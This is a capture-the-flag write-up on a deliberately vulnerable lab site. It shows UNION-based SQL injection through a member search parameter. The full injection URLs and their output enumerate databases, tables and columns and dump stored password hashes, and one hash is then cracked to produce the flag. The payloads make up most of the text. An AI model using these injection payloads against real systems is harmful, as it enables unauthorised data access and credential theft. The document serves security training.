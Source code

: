# Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql Sql_Injection_basic

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

getting current database name and listing all databases:

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

result:

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

getting a list of tables in current database:
http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

result:
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

which shows that the database has a table called users

listing all column names and types:
http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

result:
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

getting the password information:
http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

result:
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

You can see that it gives us this helpful part that says Decrypt this password -> then lower all the char. Sh256 on it and it's good
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.
Which gives us the original string "FortyTwo"
lower all characters and as per the instructions Sh256 of fortytwo is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)